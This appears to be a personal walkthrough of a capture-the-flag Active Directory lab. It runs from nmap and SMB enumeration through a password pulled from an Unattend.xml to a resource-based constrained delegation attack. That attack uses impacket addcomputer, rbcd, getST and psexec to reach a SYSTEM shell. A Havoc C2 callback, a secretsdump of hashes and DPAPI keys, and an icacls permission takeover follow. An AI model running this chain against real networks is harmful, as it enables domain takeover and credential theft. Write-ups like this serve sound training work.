Same here we can run the NMAP to check the server.

```
PORT      STATE SERVICE       REASON         VERSION
135/tcp   open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 64 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack ttl 64
3389/tcp  open  ms-wbt-server syn-ack ttl 64 Microsoft Terminal Services
|_ssl-date: 2024-06-24T16:32:05+00:00; +5s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: inception
|   NetBIOS_Domain_Name: inception
|   NetBIOS_Computer_Name: INWKT001
|   DNS_Domain_Name: inception.local
|   DNS_Computer_Name: inwkt001.inception.local
|   DNS_Tree_Name: inception.local
|   Product_Version: 10.0.19041
|_  System_Time: 2024-06-24T16:31:25+00:00
| ssl-cert: Subject: commonName=inwkt001.inception.local
| Issuer: commonName=inwkt001.inception.local
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-06-23T03:35:22
| Not valid after:  2024-12-23T03:35:22
| MD5:   2c7f:d02d:5c4b:29b5:8b36:febc:4ae9:531e
| SHA-1: b15c:0912:a13b:3538:ff10:0c7a:6d04:bd1a:5aa6:86b8
| -----BEGIN CERTIFICATE-----
| MIIC9DCCAdygAwIBAgIQFjXIut1bNLZEXXd5X3ILIjANBgkqhkiG9w0BAQsFADAj
| MSEwHwYDVQQDExhpbndrdDAwMS5pbmNlcHRpb24ubG9jYWwwHhcNMjQwNjIzMDMz
| NTIyWhcNMjQxMjIzMDMzNTIyWjAjMSEwHwYDVQQDExhpbndrdDAwMS5pbmNlcHRp
| b24ubG9jYWwwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQC9mxJ1b1Mj
| xSnFJ7gfvLmhGBPIFMsZzZLSUzuNgMT6SFpJXPoib3NgBW0PPjG5IxSeuNvnWK69
| 8gx8GI9uL/etXCvP/5wfl3uIXR02Bw6DJNNUqMgBrE5dTcSKP+XYN5KjWEpdhgdt
| hrrWIihkARRRvql4NbZsz6cEM8gXcLJioJcf4XQcFMfr5WbHzIIG9Zq3SX3eTEcr
| CcqrqmLMqcsQYDsmsQZqfp7Og7LMngNwSOJ2mHpZknZQ7Bvn1oZek/tFqEJoIRlL
| DciPY/UEGwubaTmQ7D5CElDYX5zkFq3LzZxbTxAUngNHZ/8mqpYlRvg/cuyPo34P
| dJEuoC9/NXj5AgMBAAGjJDAiMBMGA1UdJQQMMAoGCCsGAQUFBwMBMAsGA1UdDwQE
| AwIEMDANBgkqhkiG9w0BAQsFAAOCAQEAiRxkGKXdIiyqH1L5kavSSNOvo9KsP3Os
| VMzP2S1EqBZInc9amUriaNCQoXsTUPWWETUOneMoNNBf87biwEdWsMql8YLDw7LX
| hR/nj9bzmSFmEvGHD1lbhYVzKlcrDpgzEwMvDNqQVfHiecvMEU/UdsxRl6p5Lnlq
| g/QOyvCNpvgJbBj3kf7NJvg2r/7eoSQewCH3WnMGN3iTNTlQEU96U1HJ9t7agPzC
| +8dy4WIUFYLsJLQ0jslhRgJIVQFxhL6D2RSnUjXVS2rvP4H36xWAW2vUbWbGbOMd
| NP3TfY5AtVtDHhREgcpfx7oiuoEb0AMjyU9XLM23ZQLRbrFdhLriUw==
|_-----END CERTIFICATE-----
5040/tcp  open  unknown       syn-ack ttl 64
49664/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49672/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49686/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49691/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
SCAN(V=7.94SVN%E=4%D=6/24%OT=135%CT=%CU=%PV=Y%G=N%TM=66799F81%P=x86_64-pc-linux-gnu)
SEQ(SP=105%GCD=1%ISR=10C%TI=I%CI=I%II=RI%TS=A)
OPS(O1=M5B4NNT11NW7%O2=M5B4NNT11NW7%O3=M5B4NNT11NW7%O4=M5B4NNT11NW7%O5=M5B4NNT11NW7%O6=M5B4NNT11)
WIN(W1=7200%W2=7200%W3=7200%W4=7200%W5=7200%W6=7200)
ECN(R=Y%DF=N%TG=40%W=7200%O=M5B4NW7%CC=N%Q=)
T1(R=Y%DF=N%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=Y%DF=N%TG=40%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)
T3(R=Y%DF=N%TG=40%W=7200%S=O%A=S+%F=AS%O=M5B4NNT11NW7%RD=0%Q=)
T4(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T6(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=S%TG=40%CD=S)

Uptime guess: 0.290 days (since Mon Jun 24 11:34:44 2024)
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: Incrementing by 2
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
```

&nbsp;

# SMB

I see a strange share where we can read files?

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/d3v.local]
└─# NetExec smb 10.9.40.200 -u "Administrator" -p '9ze9wL0C!3' -d "cyber.local" --shares
SMB         10.9.40.200     445    INWKT001         [*] Windows 10 / Server 2019 Build 19041 x64 (name:INWKT001) (domain:inception.local) (signing:True) (SMBv1:False)
SMB         10.9.40.200     445    INWKT001         [+] cyber.local\Administrator:9ze9wL0C!3 
SMB         10.9.40.200     445    INWKT001         [*] Enumerated shares
SMB         10.9.40.200     445    INWKT001         Share           Permissions     Remark
SMB         10.9.40.200     445    INWKT001         -----           -----------     ------
SMB         10.9.40.200     445    INWKT001         ADMIN$                          Remote Admin
SMB         10.9.40.200     445    INWKT001         ADMINS$         READ            
SMB         10.9.40.200     445    INWKT001         C$                              Default share
SMB         10.9.40.200     445    INWKT001         IPC$            READ            Remote IPC
```

I want to check that **ADMINS$** share indeed!



The share holds tons of files apparenly junky but I need to massive download everything so I can search for hidden informations!



And this will take a while! But I am looking better and this seems indeed the SYSTEM32 folder of the server itself which might allow us to download the registry hives?

AnswerNO! But i see the unattended.xml:



And opening the file we can see the Administrators password?

```
# cat Unattend.xml
<?xml version="1.0" encoding="utf-8"?>
<!-- Sample Autounattend.xml for Windows 10 media. This has been tested on 1511, 1607, and 1709 - x64 architecture only
     For more details visit my blog http://blogs.catapultsystems.com/mdowst/archive/2017/12/11/create-zero-touch-windows-10-iso/  --> 
<unattend xmlns="urn:schemas-microsoft-com:unattend">
    <settings pass="windowsPE">
        <component name="Microsoft-Windows-Setup" processorArchitecture="amd64" publicKeyToken="31bf3856ad364e35" language="neutral" versionScope="nonSxS" xmlns:wcm="http://schemas.microsoft.com/WMIConfig/2002/State">
            <DiskConfiguration>
                <Disk wcm:action="add">
                    <DiskID>0</DiskID>
                    <WillWipeDisk>true</WillWipeDisk>
                    <CreatePartitions>
                        <CreatePartition wcm:action="add">
                            <Order>1</Order>
                            <Type>EFI</Type>
                            <Size>100</Size>
                        </CreatePartition>
                        <CreatePartition wcm:action="add">
                            <Order>2</Order>
                            <Type>MSR</Type>
                            <Size>4096</Size>
                        </CreatePartition>
                        <CreatePartition wcm:action="add">
                            <Order>3</Order>
                            <Type>Primary</Type>
                            <Extend>true</Extend>
                        </CreatePartition>
                    </CreatePartitions>
                    <ModifyPartitions>
                        <ModifyPartition wcm:action="add">
                            <Order>1</Order>
                            <PartitionID>1</PartitionID>
                            <Label>System</Label>
                            <Format>FAT32</Format>
                        </ModifyPartition>
                        <ModifyPartition wcm:action="add">
                            <Order>2</Order>
                            <PartitionID>3</PartitionID>
                            <Label>Windows</Label>
                            <Letter>C</Letter>
                            <Format>NTFS</Format>
                        </ModifyPartition>
                    </ModifyPartitions>
                </Disk>
                <WillShowUI>OnError</WillShowUI>
            </DiskConfiguration>
            <ImageInstall>
                <OSImage>
                    <WillShowUI>OnError</WillShowUI>
                    <InstallTo>
                        <DiskID>0</DiskID>
                        <PartitionID>3</PartitionID>
                    </InstallTo>
                    <InstallFrom>
                        <Path>install.wim</Path>
                        <MetaData>
                            <Key>/IMAGE/INDEX</Key>
                            <Value>1</Value>
                        </MetaData>
                    </InstallFrom>
                </OSImage>
            </ImageInstall>
            <ComplianceCheck>
                <DisplayReport>OnError</DisplayReport>
            </ComplianceCheck>
            <UserData>
                <AcceptEula>true</AcceptEula>
                <ProductKey>
                    <Key />
                </ProductKey>
            </UserData>
        </component>
        <component name="Microsoft-Windows-International-Core-WinPE" processorArchitecture="amd64" publicKeyToken="31bf3856ad364e35" language="neutral" versionScope="nonSxS" xmlns:wcm="http://schemas.microsoft.com/WMIConfig/2002/State" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
            <SetupUILanguage>
                <UILanguage>en-US</UILanguage>
            </SetupUILanguage>
            <InputLocale>0409:00000409</InputLocale>
            <SystemLocale>en-US</SystemLocale>
            <UILanguage>en-US</UILanguage>
            <UserLocale>en-US</UserLocale>
        </component>
    </settings>
    <settings pass="oobeSystem">
        <component name="Microsoft-Windows-Shell-Setup" processorArchitecture="amd64" publicKeyToken="31bf3856ad364e35" language="neutral" versionScope="nonSxS" xmlns:wcm="http://schemas.microsoft.com/WMIConfig/2002/State" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
            <Identification>
                <Credentials>
                    <Domain>inception.local</Domain>
                    <Password>U=zk1J.TYruU*</Password>
                    <Username>Robert.Lanza</Username>
                </Credentials>
                <JoinDomain>inception.local</JoinDomain>
            </Identification>
            <OOBE>
                <HideEULAPage>true</HideEULAPage>
                <HideLocalAccountScreen>true</HideLocalAccountScreen>
                <HideOEMRegistrationScreen>true</HideOEMRegistrationScreen>
                <HideOnlineAccountScreens>true</HideOnlineAccountScreens>
                <HideWirelessSetupInOOBE>true</HideWirelessSetupInOOBE>
                <SkipMachineOOBE>true</SkipMachineOOBE>
                <SkipUserOOBE>true</SkipUserOOBE>
            </OOBE>
            <UserAccounts>
                <LocalAccounts>
                    <LocalAccount wcm:action="add">
                        <Password>
                            <Value>Q3liM3JOM3QxQzV7VW5AdHQzbmRKMCFuQ3IzZCR9</Value>
                            <PlainText>false</PlainText>
                        </Password>
                        <DisplayName>Administrator</DisplayName>
                        <Group>Administrators</Group>
                        <Name>Administrator</Name>
                    </LocalAccount>
                </LocalAccounts>
            </UserAccounts>
        </component>
    </settings>
    <settings pass="specialize">
        <component name="Microsoft-Windows-Shell-Setup" processorArchitecture="amd64" publicKeyToken="31bf3856ad364e35" language="neutral" versionScope="nonSxS" xmlns:wcm="http://schemas.microsoft.com/WMIConfig/2002/State" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
            <ComputerName>*</ComputerName>
            <RegisteredOwner>Contoso</RegisteredOwner>
            <RegisteredOrganization>Contoso</RegisteredOrganization>
        </component>
    </settings>
</unattend>


#
```

Now the password isn't in cleartext, you can see it from the option "cleartext=false" so looking here seems like it is just a B64 encoding?

https://superuser.com/questions/408810/decrypt-sysprep-unattend-xml-user-password



If this is true then it should produce this:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics]
└─# echo "Q3liM3JOM3QxQzV7VW5AdHQzbmRKMCFuQ3IzZCR9" | base64 -d
Cyb3rN3t1C5{Un@tt3ndJ0!nCr3d$}
```

Ah it is a flag! hahah

But then I missed that the file had also some creds?



&nbsp;

# Attacking the machine

From bloodhound I saw that Robert can write extended permission on behalf of the same machine:


This means we need to perform another time the same RBDC attack, damn it! Starting to hate haha.

We can check that the attribute is not accessible:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/inception.local]
└─# rbcd.py -delegate-to 'INWKT001$' -dc-ip 10.9.40.5 -action 'read' inception.local/robert.lanza 
Impacket v0.12.0.dev1+20240604.210053.9734a1af - Copyright 2023 Fortra

[*] No credentials supplied, supply password
Password:
[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
```

In all the other cases, we were performing this attack from svc service accounts which held SPNs which mean we didn't need to add a pc to domain. But in this case we might have to do it!

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/inception.local]
└─# addcomputer.py -computer-name 'YOVECIO$' -computer-pass 'Coglione1!' -dc-host 10.9.40.5 -domain-netbios inception.local inception.local/robert.lanza:"U=zk1J.TYruU*"
Impacket v0.12.0.dev1+20240604.210053.9734a1af - Copyright 2023 Fortra

[*] Successfully added machine account YOVECIO$ with password Coglione1!.
```

Nice we added the computer, now we should add the exteneted attribute that allows the impersonation!

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/inception.local]
└─# rbcd.py -delegate-from 'YOVECIO$' -delegate-to 'INWKT001$' -dc-ip 10.9.40.5  -action 'write' inception.local/robert.lanza:"U=zk1J.TYruU*"
Impacket v0.12.0.dev1+20240604.210053.9734a1af - Copyright 2023 Fortra

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] YOVECIO$ can now impersonate users on INWKT001$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     YOVECIO$     (S-1-5-21-3923830851-530095044-3265323199-9601)
                                                                                                                                                                                  
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/inception.local]
└─# rbcd.py -delegate-to 'INWKT001$' -dc-ip 10.9.40.5 -action 'read' inception.local/robert.lanza                                                                       
Impacket v0.12.0.dev1+20240604.210053.9734a1af - Copyright 2023 Fortra

[*] No credentials supplied, supply password
Password:
[*] Accounts allowed to act on behalf of other identity:
[*]     YOVECIO$     (S-1-5-21-3923830851-530095044-3265323199-9601)
```

And now asking a TGS for impersonation on the machine on behalf of the Administrator!

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/inception.local]
└─# impacket-getST -spn cifs/INWKT001.INCEPTION.LOCAL inception.local//yovecio\$:'Coglione1!' -impersonate Administrator -dc-ip 10.9.40.5 
Impacket v0.12.0.dev1+20240604.210053.9734a1af - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_INWKT001.INCEPTION.LOCAL@INCEPTION.LOCAL.ccache
```

We need to point to it so we can use the **\-k -no-pass** option...



And now I should be able to use psexec/smbexec?

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/inception.local]
└─# impacket-psexec -k -no-pass -target-ip 10.9.40.200 -dc-ip 10.9.40.5 INWKT001.INCEPTION.LOCAL
Impacket v0.12.0.dev1+20240604.210053.9734a1af - Copyright 2023 Fortra

[*] Requesting shares on 10.9.40.200.....
[*] Found writable share ADMIN$
[*] Uploading file NTRpgmKj.exe
[*] Opening SVCManager on 10.9.40.200.....
[*] Creating service gMzl on 10.9.40.200.....
[*] Starting service gMzl.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.19045.3930]
(c) Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32> whoami
nt authority\system

C:\WINDOWS\system32> hostname
inwkt001

C:\WINDOWS\system32>
```

DAMN! It worked baby!

Now I will upload a shell to get a connection back to Havoc.



&nbsp;

# POST Exploitation

Now I see that there is another flag on Lanza's desktop?



And the flag itself:

```
┌──(root㉿kali-bello)-[/home/…/C:/Users/Robert.Lanza/Desktop]
└─# cat flag.txt                                             
��Cyb3rN3t1C5{0ff!c3Sh3llz}
```

I will run a samdump as well.

```
┌──(root㉿kali-bello)-[/home/…/57dd2e90/Download/C:/Temp]
└─# impacket-secretsdump -system systemic.txt -security security.txt -sam samantha.txt LOCAL
Impacket v0.12.0.dev1+20240604.210053.9734a1af - Copyright 2023 Fortra

[*] Target system bootKey: 0x13cd7a167e3d3d439b332ed94cb89d1e
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:42d17d5f327d0481dce507c456236587:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:53f3ec79b351e16c76331993d3ae29e3:::
[*] Dumping cached domain logon information (domain/username:hash)
INCEPTION.LOCAL/Robert.Lanza:$DCC2$10240#Robert.Lanza#f06459a090024b8299edf4f4b0dde82e: (2024-06-26 03:19:24)
INCEPTION.LOCAL/Administrator:$DCC2$10240#Administrator#c04a32035dbcc97e3e0297c0bde44b0b: (2024-03-13 11:22:06)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:49006200360044004d006600770059002c0033005a00290074004a004a0067006b0046005e006d0054007800460053007700440055004e0049004c004c0023005000390079006d00220075004d0031002d0045002c003e00480048005e005b004a002700740036006d002f00700048004e004900410024006a0072002300410029007400490057006c002b00220077005c0045002400410048004c00550051004a006a003900490075006900400061003b004800430062004e005d00380067002c0067003200740066003300690054002e006c004e0068002f0065006200750060002b0065002b0041003e0045004500
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:82eaafefcf7af1a910aaadf8feb5bc36
[*] DefaultPassword 
(Unknown User):U=zk1J.TYruU*
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x6ca2e49b80ac3bbd24e3716f8c97a56025b1d0df
dpapi_userkey:0x94ccd04cc623aae2f59905a7e2d81da12a9257a8
[*] NL$KM 
 0000   F7 85 DC 4F 81 CD 3D 21  4F 0D 49 2A 83 8C AB 9A   ...O..=!O.I*....
 0010   CB 7D 57 D7 E8 2F 24 77  30 29 D8 D0 6D E0 EE 5E   .}W../$w0)..m..^
 0020   C7 48 6C 17 64 82 BE B5  C2 57 FD 77 35 D4 20 D3   .Hl.d....W.w5. .
 0030   73 C6 71 5E 2E 9D 9C 29  04 51 63 69 99 2E 62 9A   s.q^...).Qci..b.
NL$KM:f785dc4f81cd3d214f0d492a838cab9acb7d57d7e82f24773029d8d06de0ee5ec7486c176482beb5c257fd7735d420d373c6715e2e9d9c2904516369992e629a
[*] Cleaning up...
```

Nothing new so far. So let's see what is all the fuss about that vpn folder?



I see a openvpn connection? And a otp?

Seems like we have another flag in the vpn file?

```
Cyb3rN3t1C5{EF$_3ncrypt3!0n}
```

But seems like havoc can't download the otp?



Even PSEXEC tells me access denined:



But then I was looking here:



```
https://stackoverflow.com/questions/2928738/how-to-grant-permission-to-users-for-a-directory-using-command-line-in-windows
```

And this reprocessed the links?

```
:\Users\Robert.Lanza\Desktop\VPN> icacls "C:\Users\Robert.Lanza\Desktop\VPN" /remove:d Everyone /grant:r Everyone:(OI)(CI)F /T  
processed file: C:\Users\Robert.Lanza\Desktop\VPN
processed file: C:\Users\Robert.Lanza\Desktop\VPN\Inception_VPN_Robert_Lanza.ovpn
processed file: C:\Users\Robert.Lanza\Desktop\VPN\otp.png
Successfully processed 3 files; Failed processing 0 files

C:\Users\Robert.Lanza\Desktop\VPN>
```

I am gooling about this one?

https://github.com/Abhinav1217/TakeOwnership

